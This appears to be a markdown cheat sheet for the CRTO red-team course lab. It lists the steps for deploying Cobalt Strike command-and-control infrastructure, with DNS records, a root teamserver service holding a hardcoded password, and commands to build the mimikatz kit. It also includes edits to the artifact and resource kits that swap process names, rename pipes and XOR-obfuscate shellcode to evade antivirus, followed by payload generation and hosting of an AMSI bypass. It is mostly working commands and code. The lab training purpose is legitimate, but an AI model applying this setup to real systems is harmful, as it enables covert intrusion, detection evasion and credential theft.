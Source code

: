 # CRTO Infrastructure Cheat Sheet

1. Setup DNS records
2. Load Malleable C2 profile and change out https-certificate block (use nopsled.profile which is custom webbug.profile)
3. Setup teamserver.service enabled on boot
4. Create http, smb, dns, tcp, tcp-local listeners
5. Modify the script_template.cna (changes rundll32.exe references to dllhost.exe)
6. Modify bypass-pipe.c and patch.c, and build the artifact kit
7. Modify the template.x64.ps1 file and build the resource kit
8. Build the mimikatz kit
9. Load all the cna files (e.g., artifact.cna, resource.cna, mimikatz.cna)
10. Generate all Windows stageless CS payloads
11. Host the AMSI bypass at /bypass
12. Host any PS1 files directly (avoids compress) (e.g., /http64ps1)


## 1. Set DNS records

@ A 3600 10.10.5.50\
ns1 A 3600 10.10.5.50\
pics NS 3600 ns1.getwrecked.com

## 2. Load Malleable C2 profile

- Use nopsled.profile (custom webbug.profile)
- Change out the CN to match DNS in https-certificate

## 3. Setup Team Server as a Service

`sudo vim /etc/systemd/system/teamserver.service`

*include in teamserver.service:*
```[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/nopsled.profile

[Install]
WantedBy=multi-user.target
```

Setup the service to enable on boot after creating teamserver.service\
`sudo systemctl daemon-reload`\
`sudo systemctl status teamserver.service`\
`sudo systemctl start teamserver.service`\
`sudo systemctl enable teamserver.service`

## 4. Create http, smb, dns, tcp, tcp-local listeners

## 5. Modify the script_template.cna (changes rundll32.exe references to dllhost.exe)
`$template_path="C:\Tools\cobaltstrike\arsenal-kit\kits\artifact\script_template.cna"; (Get-Content -Path $template_path) -replace 'rundll32.exe', 'dllhost.exe' | Set-Content -Path $template_path`

## 6. Modify bypass-pipe.c and patch.c, and build the artifact kit

### bypass-pipe.c: Change the sprintf call on line 130 and remove the comments above
`sprintf(pipename, "%c%c%c%c%c%c%c%c%cnop\\sled", 92, 92, 46, 92, 112, 105, 112, 101, 92);`

### patch.c: Change for loops on lines 45 and around 115/120
```
for (x = 0; x < length; x++) {
    char* ptr = (char *)buffer + x;

    /* do something random */
    GetTickCount();

    *ptr = *ptr ^ key[x % 8];
}
```

### Build artifact kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact && ./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts`

## 7. Modify the template.x64.ps1 file and build the resource kit

### Edit template.x64.ps1
```
for ($nops = 0; $nops -lt $v_code.Count; $nops++) {
	$v_code[$nops] = $v_code[$nops] -bxor 35
}
```

### Build resource kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource && ./build.sh /mnt/c/Tools/cobaltstrike/resource`

## 8. Build the mimikatz kit

### Setup mimikatz for CS
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz/ && ./build.sh /mnt/c/Tools/cobaltstrike/mimikatz`

## 9. Load all the cna files (e.g., artifact.cna, resource.cna, mimikatz.cna)

## 10. Generate all Windows stageless CS payloads

## 11. Host the AMSI bypass at /bypass

## 12. Host any PS1 files directly (avoids compress) (e.g., /http64ps1)
